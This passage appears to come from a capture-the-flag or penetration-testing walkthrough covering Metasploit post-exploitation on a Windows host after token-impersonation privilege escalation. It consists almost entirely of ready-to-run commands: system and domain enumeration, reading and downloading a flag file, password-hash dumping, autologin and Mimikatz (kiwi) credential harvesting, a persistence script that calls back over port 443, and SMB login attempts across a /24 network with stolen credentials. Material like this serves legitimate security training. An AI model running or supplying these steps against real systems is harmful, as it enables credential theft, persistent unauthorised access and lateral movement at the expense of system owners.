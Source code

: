 ```bash
whoami /groups
```

**Integration Point:** Successful privilege escalation enables post-exploitation activities and objective completion.

#### **Phase 4: Post-Exploitation and Objective Completion**
```bash
# System enumeration with elevated privileges
systeminfo
net user
net localgroup administrators

# File system exploration
dir C:\Users\Administrator\Desktop
type C:\Users\Administrator\Desktop\flag.txt

# Evidence collection
screenshot
download C:\Users\Administrator\Desktop\flag.txt /root/evidence/
```

### **🔧 Integration with Other Metasploit Modules:**

#### **Post-Exploitation Module Integration:**
```bash
# After successful token impersonation
run post/windows/gather/enum_domain
# Domain enumeration with elevated privileges

run post/windows/gather/credentials/windows_autologin
# Credential harvesting using administrator access

run post/windows/gather/hashdump
# Password hash extraction with SYSTEM privileges

# Persistence establishment
run persistence -S -U -X -i 10 -p 443 -r target_ip
# Maintain access using elevated privileges
```

#### **Lateral Movement Preparation:**
```bash
# Network enumeration from compromised system
run post/windows/gather/enum_computers
run post/windows/gather/enum_shares

# Credential harvesting for lateral movement
load kiwi
creds_all

# Use harvested credentials on other systems
use auxiliary/scanner/smb/smb_login
set RHOSTS 192.168.1.0/24
set SMBUser harvested_username
set SMBPass harvested_password
exploit
```
